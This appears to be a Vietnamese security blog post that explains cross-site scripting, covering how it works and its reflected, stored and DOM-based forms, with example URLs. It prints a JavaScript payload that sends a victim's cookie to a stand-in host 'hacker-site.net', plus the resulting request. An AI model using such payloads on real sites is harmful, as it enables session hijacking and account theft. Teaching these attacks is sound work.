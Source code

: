 ```yaml
---
layout: post
title: Cross Site Scripting - XSS Attack
description: "Attack Method: XSS (Cross Site Scripting)"
headline: 
modified: 2018-02-13
category: network
tags: [XSS]
imagefeature: cover/network/001.jpg
mathjax:
chart:
share: true
# comments: true
# featured: true
---
```


Attack Method: XSS (Cross Site Scripting)

Language: Vietnamese

## XSS - Cross-Site Scripting
Cross-Site Scripting (XSS) là một trong những kĩ thuật tấn công phổ biến nhất hiên nay, đồng thời nó cũng là một trong những vấn đề bảo mật quan trọng đối với các nhà phát triển web và cả những người sử dụng web. Bất kì một website nào cho phép người sử dụng đăng thông tin mà không có sự kiểm tra chặt chẽ các đoạn mã nguy hiểm thì đều có thể tiềm ẩn các lỗi XSS.

### Giới thiệu
Cross-Site Scripting hay còn được gọi tắt là XSS (thay vì gọi tắt là CSS để tránh nhầm lẫn với CSS-Cascading Style Sheet của HTML) là một kĩ thuật tấn công bằng cách chèn vào các website động (ASP, PHP, CGI, JSP …) những thẻ HTML hay những đoạn mã script nguy hiểm có thể gây nguy hại cho những nạn nhân sử dụng.

### Cách hoạt động
Lỗi này xảy ra khi ứng dụng web thu nhận các dữ liệu nguy hiểm được nhập từ hacker. Một website thường chứa các link, thông qua các link này hacker có thể chèn các đoạn code vào và khi người dùng nào đó sử dụng link này thì coi như 99% là chết, hacker có thể thông qua lỗi này để chèn code vào site hay link để lấy các thông tin quan trọng từ nạn nhân

Phụ thuộc vào mục đích của hacker, những đoạn Javascript được chèn vào để lấy những thông tin như:

+ Cookie: hacker có thể lấy được cookie của người dùng và dùng những thông tin trong cookie để giả mạo phiên truy cập hoặc lấy những thông tin nhạy cảm khác được lưu trong cookie.
+ Keylogging: hacker có thể ghi lại những thao tác gõ phím của người dùng bằng cách sử dụng sự kiện trong Javascript và gửi tất cả những thao tác gõ phím đó về cho hắn để thực hiện những mục đích như đánh cắp các thông tin nhạy cảm, lấy mật khẩu truy cập website hoặc mã số thẻ tín dụng…
+ Phishing: hacker có thể thay đổi giao diện của website bằng cách thay đổi cấu trúc HTML trong trang web để đánh lừa người dùng. Hacker có thể tạo ra những form đăng nhập giả nhằm lừa người dùng đăng nhập vào để đánh cắp mật khẩu.

Sau đó các thông tin này được gửi tới cho hacker . Cách thường dùng của hacker là mã hoá các phần nguy hiểm của link ( đã chèn code) thành kiểu HEX ( hoặc có thể là các hình thức khác ) để làm cho nạn nhân ít nghi ngờ khi click vào cái link nguy hiểm đó . Sau đó là tìm cách nào đó để cho nạn nhân chịu click vào cái link đó.

Hầu hết các ứng dụng web hiện nay dùng cookie để kết hợp 1 tài khoản duy nhất cho 1 người dùng nào đó , nghĩa là cookie của người nào người đó dùng . Các webmail , web bán hàng , nhà băng , … đa số đều dùng cookie với mục đích chứng thực ngừơi dùng , và đây là cái mà hacker cần.

### Vi dụ
Ví dụ url có chứp đoạn mã script
```html
 http://www.example.com/search.cgi?query=<script>alert(‘Website đang bị lỗi XSS!’);</script>.
```
Xuất hiện alert => bị lỗ hổng XSS

## Phân loại XSS
Phân loại: Có 3 loại Reflected XSS, Stored XSS và DOM-based XSS

### Reflected XSS
Ở kịch bản này, hacker sẽ gửi cho nạn nhân một URL có chứa đoạn mã nguy hiểm. Nạn nhân chỉ cần gửi request đến URL này thì hacker sẽ có được kết quả mong muốn. Cụ thể:
1. Người dùng đăng nhập web và giả sử được gán session: 
```
Set-Cookie: sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4
```
2. Bằng cách nào đó, hacker gửi được cho người dùng URL:
```
http://example.com/name=var+i=new+Image;+i.src=”http://hacker-site.net/”%2bdocument.cookie;
```
Giả sử `example.com` là website nạn nhân truy cập, `hacker-site.net` là trang của hacker tạo ra
3. Nạn nhân truy cập đến URL trên
4. Server phản hồi cho nạn nhân, kèm với dữ liệu có trong request(đoạn javascript của hacker)
5. Trình duyệt nạn nhân nhận phản hồi và thực thi đoạn javascript
6. Đoạn javascript mà hacker tạo ra thực tế như sau: 
```js
var i = new Image; i.src = 'http://hacker-site.net/' + document.cookie;
```
Dòng lệnh trên bản chất thực hiện request đến site của hacker với tham số là cookie người dùng:
```
GET /sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4 HTTP/1.1
Host: hacker-site.net
```
7. Từ phía site của mình, hacker sẽ bắt được nội dung request trên và coi như session của người dùng sẽ bị chiếm. Đến lúc này, hacker có thể giả mạo với tư cách nạn nhân và thực hiện mọi quyền trên website mà nạn nhân có.

### Stored XSS
Khác với Reflected tấn công trực tiếp vào một số nạn nhân mà hacker nhắm đến, Stored XSS hướng đến nhiều nạn nhân hơn. Lỗi này xảy ra khi ứng dụng web không kiểm tra kỹ các dữ liệu đầu vào trước khi lưu vào cơ sở dữ liệu (ở đây tôi dùng khái niệm này để chỉ database, file hay những khu vực khác nhằm lưu trữ dữ liệu của ứng dụng web). Ví dụ như các form góp ý, các comment … trên các trang web.

Với kỹ thuật Stored XSS , hacker không khai thác trực tiếp mà phải thực hiện tối thiểu qua 2 bước.
+ Đầu tiên hacker sẽ thông qua các điểm đầu vào (form, input, textarea…) không được kiểm tra kỹ để chèn vào CSDL các đoạn mã nguy hiểm.
+ Tiếp theo, khi người dùng truy cập vào ứng dụng web và thực hiện các thao tác liên quan đến dữ liệu được lưu này, đoạn mã của hacker sẽ được thực thi trên trình duyệt người dùng.

### DOM Based XSS
DOM Based XSS là kỹ thuật khai thác XSS dựa trên việc thay đổi cấu trúc DOM của tài liệu, cụ thể là HTML. Chúng ta cùng xem xét một ví dụ cụ thể sau.

Một website có URL đến trang đăng ký như sau:
```
http://example.com/register.php?message=Please fill in the form
```

Khi truy cập đến thì chúng ta thấy một Form rất bình thường. Tuy nhiên nếu đổi thành
```
http://example.com/register.php?message=<label>Gender</label><div class="col-sm-4">MaleFemale</div>function show(){alert();}
```
Người dùng sẽ chẳng chút nghi ngờ với một form “bình thường” như thế này, và khi lựa chọn giới tính, Script sẽ được thực thi


## Tham khảo


[https://techtalk.vn/ki-thuat-tan-cong-cross-site-scripting.html](https://techtalk.vn/ki-thuat-tan-cong-cross-site-scripting.html)

[https://labs.septeni-technology.jp/security/tim-hieu-ve-lo-hong-cross-site-scripting/](https://labs.septeni-technology.jp/security/tim-hieu-ve-lo-hong-cross-site-scripting/)